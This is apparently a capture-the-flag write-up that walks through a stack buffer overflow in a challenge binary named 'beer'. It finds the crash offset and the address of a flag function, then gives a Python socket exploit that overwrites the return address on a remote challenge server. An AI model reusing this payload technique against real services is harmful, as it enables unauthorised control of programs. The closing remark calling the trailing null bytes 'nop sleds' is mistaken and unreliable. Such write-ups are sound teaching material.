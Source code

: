 The challenge files ->[here](https://github.com/anushang/CTFs)  
Read about basics here before reading this post. [READ](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)  
This challenge was simple and fun as it involved overflowing beer ;)  
![_config.yml]({{ site.baseurl }}/images/bofgit2.png)

As you can already guess by the looks of it, it's a buffer overflow challenge and all we have to do is overflow the stack and get our stack pointer to point to a location in a memory which we can take advantage of.  
Let's quickly check if is vulnerable to the attack.
![_config.yml]({{ site.baseurl }}/images/bofgit1.png)

bingo!
We just sent random characters and we go a segmentation fault error!
So all now we have to do are these things:
1. Reverse the ELF and find something to jump upon.
2. Find it's address on stack.
3. Make a python script to pwn the challenge.  
There are many ways to do this.    
We can use Ghidra to find what ELF do and what their funcions do. I will just list the functions using objdump.
```
objdump -d beer
```
In the output the function *flag* looks interesting.
![_config.yml]({{ site.baseurl }}/images/gitbof3.png)

Jot down the address of the function and now we have to make simple python script to launch the attack.  
How do we create the payload(aka our strings to send in our exploit)?
1. Find the offset and note it down.
2. Use the function address which we just noted down and make the program return to it.  
To find the offset just send bunch of characters and notice at what lenth the program crashes.
Our beer program crashed when we sent more than 72 characters.
![_config.yml]({{ site.baseurl }}/images/gitbof4.png)

As we have already noticed beer is ELF 64-bit LSB executable, so we have to write the address in Little endian format "\x10\x12\x40".  
Now we write the exploit.
```python
import socket
buf="A"*72 +"\x10\x12\x40"+"\x00"*5
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("172.105.53.6",32771))
    s.recv(4000)
    print s.recv(1024)
    s.send(buf+"\r\n")
    print s.recv(1024)
    print s.recv(1024)

    
except:
    print "Error try again!"
```
and it worked! The flag was returned.  
If you are wondering what heck are bunch of \x00 in the end, they are just nop sleds.


